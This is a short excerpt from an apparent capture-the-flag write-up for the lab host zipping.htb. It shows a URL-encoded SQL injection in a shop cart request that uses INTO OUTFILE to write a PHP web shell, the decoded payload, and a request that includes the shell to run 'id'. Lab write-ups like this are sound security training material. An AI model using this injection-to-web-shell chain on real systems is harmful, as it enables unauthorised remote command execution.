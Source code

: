 ![](/assets/obsidian/a9e395e92bd8bfd6d67bbbd4ce0286fc.png)

```c
POST /shop/index.php?page=cart HTTP/1.1
Host: zipping.htb


%0a'%3b%20select%20'%3c%3f%3d%60%24_GET%5b0%5d%60%3b'%20INTO%20OUTFILE%20'%2fvar%2flib%2fmysql%2fxx.php'%3b%20--1
```

Decoded payload :

```c
'; select '<?=`$_GET[0]`;' INTO OUTFILE '/var/lib/mysql/xx.php'; --1
```

Check command execution

```c
GET /shop/index.php?page=/var/lib/mysql/xx&0=id HTTP/1.1
```

![](/assets/obsidian/7b54c1b8a4babf1648d043232fb4b51f.png)
